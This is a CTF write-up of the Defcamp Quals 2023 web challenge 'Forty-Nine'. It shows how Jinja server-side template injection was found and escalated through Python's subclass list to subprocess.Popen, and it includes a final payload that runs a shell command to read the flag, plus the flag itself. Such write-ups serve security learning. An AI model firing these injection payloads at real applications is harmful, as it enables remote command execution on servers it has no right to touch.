 ```yaml
---
title: Forty-Nine
type: writeup
date: 2023-10-22T14:55:41-04:00
description: Writeup for Forty-Nine [Defcamp Quals 2023]
author: Koyossu
tags:
- web
draft: false
---
```

___

## Challenge Description

We have a random fact generator that might have some problems sanitizing the input. It may not be as simple as 7*7.

Flag format: CTF{sha256}

## Intuition

Having seen the funny description we know that this is yet another jail escape. Let's look at the main page and see what all the fuss is about.

![img.png](/images/defcamp_quals_2023/fortyNine1.png)

So we can understand the following: the web page takes our input and that the server is in python. Lovely stuff.

From here we can try to do SSTI using one of the 2 python template escapes, the `{{` (curly brackets) or `{% %}`

After some tries we see this.

![img.png](/images/defcamp_quals_2023/fortyNine2.png)

Bingo! We now know this is for sure SSTI and all we have to do is call system and get the flag from the machine. Hopefully, the challange did not have any input sanitization or restrictions.

## Solution

All we needed to do is reach __builtins__ or something that has any function related to system calls and shell spawning. We will go step by step using common techniques, like 
leveraging python objects and MRO (method resolution order), trying to access the above mentioned methods.

Let the fun begin :)

Using a basic technique 
```python
{% print( ''.__class__.__mro__[1].__subclasses__()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine3.png)

Bingo, we have access to `<class 'subprocess.Popen'>` in this array, so we can call popen and do cat the flag. 

Final Payload:
```python
{% print( ''.__class__.__mro__[1].__subclasses__()[367]("cat flag.txt", shell=True, stdout=-1).communicate()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine4.png)


### Flag
Here is the final flag, and a proof from the website :)

![img.png](/images/defcamp_quals_2023/fortyNineFlag.png)

`CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}`


